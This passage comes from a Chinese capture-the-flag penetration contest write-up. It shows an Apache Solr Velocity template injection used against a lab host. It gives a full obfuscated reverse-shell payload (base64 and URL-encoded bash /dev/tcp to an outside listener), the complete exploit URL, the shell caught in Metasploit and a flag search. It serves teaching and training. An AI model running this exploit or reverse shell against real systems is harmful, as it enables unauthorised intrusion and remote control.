 将-c前后的空格替换为+号：

```
bash+-c+{echo,YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC85OS45OS45OS4xMDAvMTIzNCAwPiYxIg==}|{base64,-d}|{bash,-i}
```

将执行内容（第二个+号后面的内容）进行url编码：

![image-20221109150142648875-1669009343356363.png](img/典型企业生产环境渗透赛 Local.assets/a03b2d3ceff39cfb0835da5cf5084dd7.png)

```
%7b%65%63%68%6f%2c%59%6d%46%7a%61%43%41%74%59%79%41%69%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%35%4f%53%34%35%4f%53%34%35%4f%53%34%78%4d%44%41%76%4d%54%49%7a%4e%43%41%77%50%69%59%78%49%67%3d%3d%7d%7c%7b%62%61%73%65%36%34%2c%2d%64%7d%7c%7b%62%61%73%68%2c%2d%69%7d
```

拼接后如下：

```
bash+-c+%7b%65%63%68%6f%2c%59%6d%46%7a%61%43%41%74%59%79%41%69%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%35%4f%53%34%35%4f%53%34%35%4f%53%34%78%4d%44%41%76%4d%54%49%7a%4e%43%41%77%50%69%59%78%49%67%3d%3d%7d%7c%7b%62%61%73%65%36%34%2c%2d%64%7d%7c%7b%62%61%73%68%2c%2d%69%7d
```

在浏览器中访问：

```
http://192.168.10.110:8983/solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27id%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27bash+-c+%7b%65%63%68%6f%2c%59%6d%46%7a%61%43%41%74%59%79%41%69%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%35%4f%53%34%35%4f%53%34%35%4f%53%34%78%4d%44%41%76%4d%54%49%7a%4e%43%41%77%50%69%59%78%49%67%3d%3d%7d%7c%7b%62%61%73%65%36%34%2c%2d%64%7d%7c%7b%62%61%73%68%2c%2d%69%7d%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![image-20221109150301466853-1669009344626224.png](img/典型企业生产环境渗透赛 Local.assets/1fd9f4b08831f657d63d50d52755c6a5.png)

MSF监听中获取到反弹shell：

![image-20221109150318161369-1669009345925568.png](img/典型企业生产环境渗透赛 Local.assets/3e919fda1301bdb2b313e4ee0b62ea62.png)

查看当前用户信息：

![image-20221109150357153486-1669009347245454.png](img/典型企业生产环境渗透赛 Local.assets/f96613c5167b2374171554caea996a65.png)

查找flag并获取：

```
find / -name flag.txt
```

![image-20221109150534148040-1669009348544108.png](img/典型企业生产环境渗透赛 Local.assets/33382ba827f8475bed64599db2866a6b.png)

